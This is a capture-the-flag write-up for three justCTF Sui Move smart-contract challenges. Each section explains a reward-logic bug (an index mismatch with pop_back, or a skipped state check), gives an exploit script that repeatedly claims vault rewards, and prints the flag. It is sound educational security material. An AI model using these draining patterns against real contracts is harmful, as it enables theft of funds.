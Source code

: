 
**[#1 The Otter Scrolls]**

To solve this level, we need to call the `cast_spell` function with the correct sequence of indices to set the `casted` attribute of the `Spellbook` to `true`. The function checks specific magic words in sequence: "Inferno" (fire), "Zephyr" (wind), "Call" (water), "Granite" (earth), and "Wazzup" (power).

We determined the indices for these words in their respective vectors and constructed the sequence `[1, 0, 3, 3, 3]`. This sequence corresponds to the required magic words in the correct order. By calling `cast_spell` with this sequence and verifying with `check_if_spell_casted`, we ensure the spell is successfully cast.


`solve.move` script:
```rust
module solve::solve {
    // [*] Import dependencies
    use challenge::theotterscrolls;
    public fun solve(
        _spellbook: &mut theotterscrolls::Spellbook,
        _ctx: &mut TxContext
    ) {
        // Your code here...
        let spell_sequence = vector[1, 0, 3, 3, 3];
        theotterscrolls::cast_spell(spell_sequence, _spellbook);
    }
}
```
```javascript
Flag: justCTF{Th4t_sp3ll_looks_d4ngerous...keep_y0ur_distance}
```





**[#2 Dark BrOTTERhood]**

To solve this level, we need to interact with the smart contract by calling several functions to register a player, equip them with a sword, find and fight monsters, get the rewards, and ultimately prove the solution.

The root cause of the problem is these lines in the `get_the_reward` function:
```javascript
    public fun get_the_reward(quest_id: u64, ...) {
        // check status with quest_id
        let quest_to_claim = vector::borrow_mut(&mut board.quests, quest_id);
        assert!(quest_to_claim.fight_status == FINISHED, WRONG_STATE);

        // but pop last index instead of quest_id
        let monster = vector::pop_back(&mut board.quests);
        ...
    }
```

The check is correctly performed against the quest_id, ensuring the fight_status is FINISHED. However, the pop_back function removes and returns the last element in the vector and the reward is mistakenly based on the last element of the vector rather than the quest at the quest_id index. This mismatch leads to inconsistencies and errors in the quest state management.


`solve.move`:
```javascript
module solve::solve {
    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};
    use sui::random::Random;
    #[allow(lint(public_random))]
    public fun solve(
        _vault: &mut Otter::Vault<OTTER>,
        _questboard: &mut Otter::QuestBoard,
        _player: &mut Otter::Player,
        _r: &Random,
        _ctx: &mut TxContext,
    ) {
        // Your code here ...
        // buy sword and defead at least one monster
        Otter::buy_sword(_vault, _player, _ctx);
        Otter::find_a_monster(_questboard, _r, _ctx);
        Otter::fight_monster(_questboard, _player, 0);
        Otter::return_home(_questboard, 0);

        let times: u64 = 100;
        let mut i: u64 = 0;
        while (i < times) {
            // add new monster at the end of quest vector
            Otter::find_a_monster(_questboard, _r, _ctx);
            // use defeated monter quest_id to get reward
            Otter::get_the_reward(_vault, _questboard, _player, 0, _ctx);
            i = i + 1;
        };

        // but flag
        let flag = Otter::buy_flag(_vault, _player, _ctx);
        Otter::prove(_questboard, flag);
    }
}
```
```javascript
Flag: justCTF{I_us3d_to_b3_an_ott3r_until_i_t00k_th4t_arr0w}
```




**[#3 World of Ottercraft]**

The vulnerability in this challenge stems from the fact that the get_the_reward function does not verify monster power before awarding the reward. Instead, it simply pops the monster from the vector and grants the reward. Here’s the relevant code from the get_the_reward function:


```javascript
public fun get_the_reward(vault: &mut Vault<OTTER>, board: &mut QuestBoard, player: &mut Player, ctx: &mut TxContext) {
    assert!(player.status != RESTING && player.status != PREPARE_FOR_TROUBLE && player.status != ON_ADVENTURE, WRONG_PLAYER_STATE);
    // pop monter
    let monster = vector::remove(&mut board.quests, player.quest_index);
    ...
    // get reward from vault
    let coins = coin::split(&mut vault.cash, reward, ctx); 
    ...
    // send reward to player
    balance::join(&mut player.wallet, balance);

    player.status = RESTING;
}
```

In contrast, the return_home function, which should be called before get_the_reward, includes a crucial check to ensure that the monster's power is zero (indicating the monster has been defeated):


```javascript
public fun return_home(board: &mut QuestBoard, player: &mut Player) {
    assert!(player.status != SHOPPING && player.status != FINISHED && player.status != RESTING && player.status != PREPARE_FOR_TROUBLE, WRONG_PLAYER_STATE);

    let quest_to_finish = vector::borrow(&board.quests, player.quest_index);
    assert!(quest_to_finish.power == 0, WRONG_AMOUNT);

    player.status = FINISHED;
}
```

Exploiting the Vulnerability

To exploit this vulnerability, we need to avoid calling return_home and directly call get_the_reward. This can be achieved if we can enter the get_the_reward function while the player's status is SHOPPING, which can be done by calling the enter_tavern function. The following sequence of operations allows us to repeatedly call get_the_reward without the necessary checks.

```javascript
module solve::solve {
    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};
    public fun solve(
        _board: &mut Otter::QuestBoard,
        _vault: &mut Otter::Vault<OTTER>,
        _player: &mut Otter::Player,
        _ctx: &mut TxContext
    ) {
        // Your code here...
        // buy sword because we need to defeat monter to change state
        let mut ticket = Otter::enter_tavern(_player);
        Otter::buy_sword(_player, &mut ticket);
        Otter::checkout(ticket, _player, _ctx, _vault, _board);

        // add monter to vector so get_the_reward function can pop them later
        let num_quests: u64 = 24;
        let mut i: u64 = 0;
        while (i < num_quests) {
            Otter::find_a_monster(_board, _player);
            i = i + 1;
        };

        // continue scenario to reach RESTING status again
        Otter::bring_it_on(_board, _player, 0);
        Otter::return_home(_board, _player);
        Otter::get_the_reward(_vault, _board, _player, _ctx);

        // now we have full vector of monters we can set status to SHOPPING and loop over get_the_reward
        i = 0;
        while (i < num_quests - 1) {
            // enter SHOPPING status
            let mut shield_ticket = Otter::enter_tavern(_player);
            // buy something cheap just so we can checkout later
            Otter::buy_shield(_player, &mut shield_ticket);
            // enter get_the_reward in SHOPPING status and get reward without defeating monter
            Otter::get_the_reward(_vault, _board, _player, _ctx);
            // checkout because we need to use shield_ticket
            Otter::checkout(shield_ticket, _player, _ctx, _vault, _board);
            i = i + 1;
        };

        // buy flag
        let mut final_ticket = Otter::enter_tavern(_player);
        Otter::buy_flag(&mut final_ticket, _player);
        Otter::checkout(final_ticket, _player, _ctx, _vault, _board);
    }

}
```



```javascript
Flag: justCTF{Ott3r_uses_expl0it_its_sup3r_eff3ctiv3}'
```









